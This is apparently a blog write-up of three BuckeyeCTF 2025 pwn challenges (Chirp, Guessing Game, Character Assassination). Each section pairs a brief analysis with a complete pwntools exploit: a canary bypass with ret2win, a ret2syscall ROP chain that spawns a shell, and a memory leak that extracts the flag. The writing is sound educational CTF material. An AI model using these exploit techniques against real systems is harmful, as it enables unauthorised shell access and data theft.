




import PostFileDownload from "../../../components/PostFileDownload.astro";

## Chirp

<PostFileDownload name="2025-buckeyectf-chirp.zip" />

A binary exploitation challenge where they give you the source code in... Assembly. Fortunately it was very easy to analyze since it looked very straight forward and simple.

```s
.section .rodata
chirp:
    .string "HEY!!!!!! NO STACK SMASHING!!!!!!"
prompt:
    .string "Enter name: "
greeting:
    .string "Hello, "
canary_fname:
    .string "canary.bin"
read_permission:
    .string "rb"
bin_sh:
    .string "/bin/sh"

.data
canary:
    .space 4

.text
    .type shell, @function
shell:
    # here's a free shell function!
    # too bad you can't use it!
    leaq   bin_sh(%rip), %rdi
    call   system
    ret

    .type set_canary, @function
set_canary:
    pushq   %rbp
    movq    %rsp, %rbp
    subq    $16, %rsp

    leaq    canary_fname(%rip), %rdi
    leaq    read_permission(%rip), %rsi
    call    fopen

    movq    %rax, %rcx
    movq    %rcx, (%rsp)

    leaq    canary(%rip), %rdi
    movq    $8, %rsi
    movq    $1, %rdx

    call    fread

    movq    (%rsp), %rdi
    call    fclose

    leave
    ret

    .globl main
    .type main, @function
main:
    pushq   %rbp
    movq    %rsp, %rbp
    subq    $32, %rsp

    call    set_canary

    movq    canary(%rip), %rax
    movq    %rax, -8(%rbp)

    movq    stdin(%rip), %rdi
    xorq    %rsi, %rsi
    movq    $2, %rdx
    xorq    %rcx, %rcx
    call    setvbuf

    movq    stdout(%rip), %rdi
    xorq    %rsi, %rsi
    movq    $2, %rdx
    xorq    %rcx, %rcx
    call    setvbuf

    leaq    prompt(%rip), %rdi
    xorl    %eax, %eax
    call    printf

    leaq    -32(%rbp), %rdi
    call    gets

    leaq    greeting(%rip), %rdi
    xorl    %eax, %eax
    call    printf

    leaq   -32(%rbp), %rdi
    xorl    %eax, %eax
    call    printf

    movb    $0, (%rsp)
    movq    %rsp, %rdi
    call    puts

    leaq    -8(%rbp), %rdi
    leaq    canary(%rip), %rsi
    movq    $8, %rdx
    call    strncmp
    je      canary_passed

    leaq    chirp(%rip), %rdi
    call    puts

    movl    $134, %edi
    call    exit

canary_passed:
    movl    $0, %eax

    leave
    ret

    .size main, .-main
```

```
$ checksec chall
[*] './chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

To summarize what this challenge is all about:

1. We have a win function in `shell`
2. We have to bypass its canary somehow (which it reads from a `canary.bin` file)

Fortunately as well, we have a format string vulnerability! So we test out a `canary.bin` locally to find its format string offset, then try the remote to extract its canary.



Use the canary to do a simple ret2win for shell!

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'chirp', checksec=False)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'chirp.challs.pwnoh.io'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port, ssl=True)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+152
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

# io.sendlineafter(b'Enter name: ', b"%9$p")
# canary = 0x4847464544434241 # for local testing
canary = 0x9114730499870181
log.success(f'Canary: {hex(canary)}')
log.info(f'Canary: {canary.to_bytes(8, "little")}')

payload = flat(
    cyclic(24, n=8),
    canary,
    0,
    exe.sym.shell,
)
io.sendlineafter(b'Enter name: ', payload)

io.interactive()
```

Here it is being solved:



## Guessing Game

<PostFileDownload name="2025-buckeyectf-guessinggame.zip" />

I was honestly expecting this challenge to be RNG manipulation, but turns out it's something else! No source code given so heres a quick analysis:

```
$ checksec chall
[*] './chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```
$ ./guessing_game
Welcome to the guessing game!
Enter a max number: 10
Enter a guess: 5
Too high!
Enter a guess: 3
Too low!
Enter a guess: 4
Wow! You got it!
Enter your name for the leaderboard: ASDF
Thanks for playing, ASDF!
```

1. Canary needs to be bypassed
2. It's a number guessing game that is based on **the canary** that is being modulo'd to the inputted max number

With the help of AI I was able to make a script to binary search the canary, but the next step was finding out what to do with the buffer overflow. And then I discovered in the gadget list that there were lots of register pops and... **the syscall.** So, it was pointing to the challenge being solvable using a ret2syscall.

Here's the solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'guessing_game', checksec=False)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'guessing-game.challs.pwnoh.io'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port, ssl=True)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+457
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()
v6 = (1<<56) - 1
io.recvuntil(b"Enter a max number: ")
io.sendline(str(v6).encode())

# Binary search to recover v9, thanks GPT
low, high = 0, v6
while low <= high:
    mid = (low + high) // 2
    io.recvuntil(b"Enter a guess: ")
    io.sendline(str(mid).encode())
    data = io.recvline(timeout=1)  # read response
    if b"Too low!" in data:
        low = mid + 1
    elif b"Too high!" in data:
        high = mid - 1
    elif b"Wow! You got it!" in data:
        v9 = mid
        break

log.info(f"recovered v9 = {v9}")
canary = v9 << 8   # assume lowest byte = 0
log.info(f"reconstructed canary = {hex(canary)}")

POP_RAX = 0x000000000040124f
POP_RDI = 0x000000000040124d
POP_RSI = 0x0000000000401251
POP_RDX = 0x0000000000401253
BIN_SH = next(exe.search(b'/bin/sh\x00'))
SYSCALL = 0x0000000000401255

payload = flat(
    cyclic(10, n=8),
    canary,
    0,
    POP_RAX,
    0x3b,
    POP_RDI,
    BIN_SH,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)
io.sendlineafter(b"Enter your name for the leaderboard: ", payload)

io.interactive()
```



## Character Assasination

<PostFileDownload name="2025-buckeyectf-characterassasination.zip" />

Let me be honest, I had no clue what was going on. But trust me that AI did 99% of the job. Here's the solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *
import re

exe = context.binary = ELF(args.EXE or 'character_assassination', checksec=False)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'character-assassination.challs.pwnoh.io'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port, ssl=True)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

def leak(io, use_upper=True):
    # consume initial prompt
    io.recvuntil(b"> ")
    # build payload: 128 pairs -> places bytes 128..255 into either odd (upper) or even (lower) positions
    payload = bytearray()
    for j in range(128):
        if use_upper:
            payload.append(ord('A'))          # even -> lower
            payload.append(128 + j)           # odd  -> upper (signed negative)
        else:
            payload.append(128 + j)           # even -> lower (signed negative)
            payload.append(ord('A'))          # odd  -> upper
    payload.append(10)  # newline
    io.send(payload)

    # read processed line (the program prints mapped chars then newline)
    line = io.recvuntil(b"\n", timeout=2)
    # strip prompt if included
    line = line.rstrip(b"\r\n")
    return line

def find_flag(mem):
    # search for common CTF-ish flag patterns
    m = re.search(rb"[a-zA-Z0-9_]*\{.*?\}", mem)
    if m:
        return m.group(0).decode('utf-8', errors='replace')
    # fallback search for 'bctf{'
    i = mem.find(b"bctf{")
    if i != -1:
        j = mem.find(b"}", i)
        if j != -1:
            return mem[i:j+1].decode('utf-8', errors='replace')
    return None

io = start()

# try leaking from both arrays (upper and lower)
for use_upper in (True, False):
    processed = leak(io, use_upper=use_upper)
    # extract the 128 mapped bytes that came from the high-byte indices
    leaked = bytearray()
    for k in range(128):
        idx = 2*k + (1 if use_upper else 0)
        if idx < len(processed):
            leaked.append(processed[idx])
        else:
            leaked.append(0)
    print(f"Leaked region (use_upper={use_upper}):")
    print(leaked.decode('ascii', errors='replace'))
    flag = find_flag(leaked)
    if flag:
        print("Found flag:", flag)
        break

io.interactive()
```


